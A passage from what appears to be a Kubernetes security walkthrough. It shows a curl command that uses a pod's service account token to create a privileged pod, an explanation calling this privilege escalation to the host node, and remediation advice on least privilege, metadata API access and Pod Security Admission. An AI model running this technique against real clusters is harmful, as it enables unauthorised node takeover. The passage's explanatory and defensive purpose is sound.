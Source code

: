 ```bash
      }
    ]
  }
}
EOF

curl -s -H "Authorization: Bearer $TOKEN" --cacert /var/run/secrets/kubernetes.io/serviceaccount/ca.crt -H "Content-Type: application/json" -X POST -d @exploit.json $KUBE_API_URL/api/v1/namespaces/$NAMESPACE/pods
```

*   **Explanation:**
    *   Creates a pod definition file (`exploit.json`) that defines a new pod with `privileged: true`.  The privileged flag allows the container to access the host's kernel and all devices. The command specifies an infinite sleep to keep the pod running.
    *   Uses `curl` to send a POST request to the Kubernetes API server, creating the pod. The request includes the service account token for authentication, the CA certificate for SSL verification, and the pod definition data.
*   **Why:** This attempts to create a privileged pod, demonstrating the potential for privilege escalation.
*   **Expected Output:** A JSON response indicating the successful creation of the pod or an error message if the creation fails (e.g., due to insufficient permissions).
*   **How it contributes:** Demonstrates successful privilege escalation, giving the attacker access to the underlying node.

**Remediation Recommendations:**

*   **Restrict Service Account Permissions:** Implement the principle of least privilege by granting service accounts only the minimum permissions necessary for their intended functions. Regularly review and audit service account permissions.  Use Pod Security Standards to limit the capabilities of pods.
*   **Disable Metadata API Access (where possible):** If the Metadata API is not required by your application, consider disabling it entirely. This can be achieved through various methods, depending on the container runtime and the cloud provider.
*   **Network Policies:** Implement network policies to restrict network access to the Metadata API.  Limit traffic to the `169.254.169.254` address.
*   **Pod Security Policies/Admission Controllers:** Use Pod Security Policies (now deprecated, migrate to Pod Security Admission) or Admission Controllers to enforce security policies that restrict the creation of privileged pods and other potentially dangerous configurations.
*   **Regularly Audit Cluster Configuration:** Regularly audit the Kubernetes cluster configuration to identify and remediate any security misconfigurations.
*   **Use Updated Kubernetes Versions:** Keep your Kubernetes cluster up-to-date with the latest security patches and features.  Newer versions of Kubernetes have implemented improvements in security and authentication. Consider enabling `NodeRestriction` admission controller for improved protection against node compromise.
